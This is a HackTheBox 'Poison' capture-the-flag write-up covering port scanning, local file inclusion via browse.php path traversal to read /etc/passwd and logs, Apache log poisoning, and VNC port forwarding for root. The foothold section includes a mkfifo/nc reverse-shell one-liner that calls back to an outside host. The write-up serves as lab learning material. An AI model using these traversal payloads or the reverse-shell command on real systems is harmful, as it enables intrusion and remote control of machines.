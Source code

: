 ```yaml
---
layout: post
title:  "HackTheBox - Poison"
date:   2021-08-06 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```
Gobuster scan:
```
index.php               [Status: 200, Size: 289, Words: 21, Lines: 13]
info.php                [Status: 200, Size: 157, Words: 19, Lines: 1]
phpinfo.php             [Status: 200, Size: 68242, Words: 3475, Lines: 715]
```
Visiting info.php we see this:
```
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017 root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64
```
Visiting listfiles.php we see this :
```
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
```
Searching for anything in port 80 redirects to this :
```
http://10.10.10.84/browse.php?file=xxxx
```
Tried for lfi and got /etc/passwd:
```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $ # root:*:0:0:Charlie &:/root:/bin/csh toor:*:0:0:Bourne-again Superuser:/root: daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin operator:*:2:5:System &:/:/usr/sbin/nologin bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin news:*:8:8:News Subsystem:/:/usr/sbin/nologin man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin _pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin _dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin _ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin _tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin charix:*:1001:1001:charix:/home/charix:/bin/csh 
```
Searching for /etc/crontab:
```
# /etc/crontab - root's crontab for FreeBSD # # $FreeBSD: releng/11.1/etc/crontab 194170 2009-06-14 06:37:19Z brian $ # SHELL=/bin/sh PATH=/etc:/bin:/sbin:/usr/bin:/usr/sbin # #minute hour mday month wday who command # */5 * * * * root /usr/libexec/atrun # # Save some entropy so that /dev/random can re-seed on boot. */11 * * * * operator /usr/libexec/save-entropy # # Rotate log files every hour, if necessary. 0 * * * * root newsyslog # # Perform daily/weekly/monthly maintenance. 1 3 * * * root periodic daily 15 4 * * 6 root periodic weekly 30 5 1 * * root periodic monthly # # Adjust the time zone if the CMOS clock keeps local time, as opposed to # UTC time. See adjkerntz(8) for details. 1,31 0-5 * * * root adjkerntz -a 
```
error log:
```
http://10.10.10.84/browse.php?file=/../../../../var/log/httpd-error.log
```
Access log:
```
http://10.10.10.84/browse.php?file=/../../../../var/log/httpd-access.log
```
# FOOTHOLD

If we go to http://10.10.10.84/browse.php?file=pwdbackup.txt we fill find the encrypted password.
Another alternate route is via log-poisoning (wasn't actually able to do it via curl so I did it via burp):

```
GET /browse.php?file=/var/log/httpd-access.log&c=ls HTTP/1.1

Host: 10.10.10.84

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```
We can put our commands in place of "ls" such as "id",etc.This way we can url-encode our reverse shell one liner and execute it to get the shell back:
```s
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```
User flag is located in /home/charix

# PRIVILEGE ESCALATION

Using netstat -an command we see that it is locally listening on 5801 and 5901, while 5801 was not very useful, googling 5901 showed us that it is a vnc port , so we port forward it to our local ip :

```s
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
While trying to open it with vncviewer we see it needs a password, after sometime I remembered about the secret.zip in /home/charix so I downloaded it via netcat and unzipped it with our already obtained password and used that file as the password file in vncviewer:

```s
vncviewer 127.0.0.1:5901 -passwd secret
```
We transfer root.txt to our system (I couldn't copy the hash from vncviewer) and submit our flag.

We also found a tool which decrypts the secret file so we can authenticate with that too :

[vncpwd](https://github.com/jeroennijhof/vncpwd)